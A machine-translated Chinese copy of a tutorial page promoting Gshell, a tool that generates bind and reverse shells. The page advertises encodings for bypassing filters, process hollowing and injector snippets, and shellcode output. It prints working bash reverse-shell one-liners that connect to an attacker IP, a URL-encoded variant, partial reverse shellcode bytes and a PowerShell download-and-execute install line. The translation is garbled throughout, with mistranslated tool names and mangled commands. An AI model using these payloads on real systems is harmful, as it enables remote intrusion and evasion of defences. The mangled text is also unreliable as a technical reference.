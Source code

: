# Gshell:一个灵活且可扩展的跨平台 shell 生成器工具

> 原文：<https://kalilinuxtutorials.com/gshell/>

[![](img/b1bd9f0406ca2c1f669a87755e8c1333.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjAz7eJHhDeDGwwv3l1syPqR_kA7ts8hpddBx1W8gwtk228HSJsSd5P_fqVNXg4EOAtaDbVVaRbfwdlSA7rQ1FCdmZhf1H6qA_QDLNmf0ILVEo1MLSQLNLp-pbM_kdSnmxT8No-VUnqMd7xCn6aixQ2kGx4GwD2w2lMOqHEWpIUW87xXyXtYWwDKw3C/s728/image_750x500_62a926e46b6ee%20(1).png)

Gshell 是一个简单而灵活的跨平台 shell 生成器工具。一个跨平台的 shell 生成器工具，可以让您在任何系统中生成任何您想要的 shell，为您提供完全的控制和自动化。

是跨平台的，您可以在以下操作系统中使用它:

*   基于 Unix 的系统
*   GNU/Linux
*   Windows 操作系统
*   马科斯

生成以下 shells:

*   绑定 Shells:目标有一个监听端口，我们连接到目标。
*   反向 Shells:我们有一个监听端口，目标连接到我们。

支持以下编码(截至目前):

*   URL 编码:绕过 URL 过滤器
*   Base64/32/16 编码:绕过字符串/关键字过滤器
*   PowerShell Base64 编码

支持以下 IP 版本:

*   IPv4
*   IPv6

支持的协议:

*   传输控制协议（Transmission Control Protocol）
*   用户数据报协议(User Datagram Protocol)
*   网间控制报文协议(Internet Control Messages Protocol)

**注意:您可以添加自己的使用其他协议的 shells，比如 DNS** 。

支持以下语言和工具:

*   PowerShell
*   计算机编程语言
*   尝试
*   嘘
*   Perl 语言
*   Socat
*   网猫
*   （美国）北卡罗来纳州
*   Awk
*   左上臂
*   NodeJS
*   OpenSSL
*   服务器端编程语言（Professional Hypertext Preprocessor 的缩写）
*   红宝石
*   用于远程联接服务的标准协议或者实现此协议的软件(可为动词)
*   Golang
*   C#
*   镖
*   绝妙的
*   更多…

它是无限的，想加多少就加多少吧！

贝壳被储存在减价文件中，这样对每个人来说都很方便。

您可以通过在以下文件中添加 markdown 代码块来添加更多绑定外壳:

**shell/bind _ shell . MD**

您还可以通过在以下文件中添加 markdown 代码块来添加更多反向 shells:

**shell/reverse _ shell . MD**

这些可以是一行，也可以是多行，没关系。如果你愿意，你甚至可以添加 C#多行代码块。

下面是一个反向 shell 命令示例:

**bash-I>/dev/TCP/192 . 168 . 10 . 11/433 0>1**

要添加另一个 shell，只需在代码或命令中用这些占位符替换 IP 地址和端口占位符或变量值:

*   `**$ip**` : IP 地址
*   `**$port**`:端口号

这里有一个例子:

**bash-I>/dev/TCP/$ IP/$ port 0>1**

# 概观

这是帮助菜单:

**PS c:\ g shell>python g shell . py-h
用法:g shell . py[-I][-p][-s][-r][-b][–中空][–injector][–shellcode][–srev][–sbind][–Linux][–base64][–base32][–URL]
[–no-block][-l][-a][-h]
████████████████████████████ 绑定 shell 和/或反向 shell 的样式
版本:1.2
作者:nozerobit
Twitter:@ nozerobit
选项:
-i，–ip
指定 IP 地址
-p，–port
指定端口号
-s，–shell
指定 shell 类型(python、nc、bash 等)
有效负载类型:
-r，–反向受害者与攻击机器通信 –绑定打开受害机器上的监听器
代码片段类型:
–挖空打印过程挖空代码片段
–注入器打印过程注入器代码片段
Shellcode 必需选项:
–Shellcode 生成 Shellcode， 需要–srev 或–sbind 和–Linux
–srev 反向外壳代码
–sbind 绑定外壳代码
–Linux Linux 外壳代码
编码选项:
–base64 添加 base64 编码
–base32 添加 base32 编码
–base16 添加 base16 编码
–url 添加 URL 编码
Markdown 选项:
–解析
时无阻塞跳过`code blocks`**

## 侦听器和连接器的示例

与 nc TCP 连接:

**nc -v**

使用 nc UDP 连接:

NC-vu IP 端口

## 粘合壳和反向壳示例

示例，生成 bash 反向 shells:

**PS C:\gshell > python。\ g shell . py-I 192.168.111.120-p 443-r-s bash
[+]IP v4 地址:192 . 168 . 111 . 120 有效。
[+]端口号:443 有效。
[+] Shell 类型有效
[+]准备反向 Shell
[+]生成 bash Shell
bash-I>&/dev/TCP/192 . 168 . 111 . 120/443 0>&1
————下一个代码块————————
0<&196；exec 196</dev/TCP/192 . 168 . 111 . 120/443；sh<&196>&196 2>&196
————下一个代码块——————
/bin/bash-l>/dev/TCP/192 . 168 . 111 . 120/443 0<1 2>&1
————下一个代码块———**

## 编码示例

下面是一个编码示例:

**PS C:\gshell > python。\ g shell . py-I 192.168.111.120-p 443-r-s bash–URL
[+]IP v4 地址:192 . 168 . 111 . 120 有效。
[+]端口号:443 有效。
[+] Shell 类型有效
[+]准备反向 Shell
[+]生成 bash Shell
[+]添加 URL 编码
bash+-I+% 3E % 26+% 2f dev % 2 ftcp % 2f 192 . 168 . 111 . 120% 2f 443+0% 3E % 261% 0A
———下一个代码块————
0% 3C % 26196% 30**

## 外壳代码示例

以下是外壳代码的示例:

**PS C:\gshell > python。\ g shell . py-I 192.168.220.131-p 4433–shellcode–srev–Linux
[+]IP v4 地址:192 . 168 . 220 . 131 有效。
[+]端口号:4433 有效。
[+]生成反向外壳代码
[+]生成 Linux 外壳代码
\ x89 \ xe5 \ x31 \ xc0 \ x31 \ xc9 \ x31 \ xd2 \ x50 \ x50 \ xb8 \ x1 \ x1 \ x1 \ xbb \ xc1 \ xa9 \ xdd \ x82 \ x31 \ xc3 \ x53 \ x66 \ x68 \ X11 \ x51 \ x66 \ x6a \ x02 \ x31 \ xc0 \ x31 \ xdb \ x66**

# 在 Linux 中安装

克隆或下载存储库:

**git 克隆 https://github.com/nozerobit/gshell**

安装要求:

**python 3-m pip install-r g shell/requirements . txt**

# 在 Windows 中安装

克隆或下载存储库:

**git 克隆 https://github.com/nozerobit/gshell C:\ Tools**

以 CMD 管理员身份安装 chocolatey:

**@ powershell-no profile-execution policy Bypass-Command " iex((new-object net . webclient)。download string(' https://chocolatey . org/install . PS1 ')"&&设置路径= % PATH %% all users profile % \ chocolate y \ bin**

[**Download**](https://github.com/nozerobit/gshell)